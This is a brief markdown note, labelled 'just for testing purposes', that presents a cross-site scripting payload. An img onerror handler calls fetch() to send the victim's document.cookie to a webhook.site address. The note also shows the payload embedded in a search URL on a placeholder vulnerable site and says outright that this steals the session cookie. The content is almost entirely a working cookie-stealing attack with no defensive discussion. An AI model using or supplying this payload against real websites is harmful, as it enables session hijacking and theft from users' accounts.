 ### Just for testing purposes

Payload
```
<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```

Payload integrated URL (cookie is stolen through a xss vulnerable site)
```
https://www.yoursite.com/search?term=<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```
This is the xss vulnerable site and search url :```https://www.yoursite.com/search?term=```


This sends session cookie to webhook site.
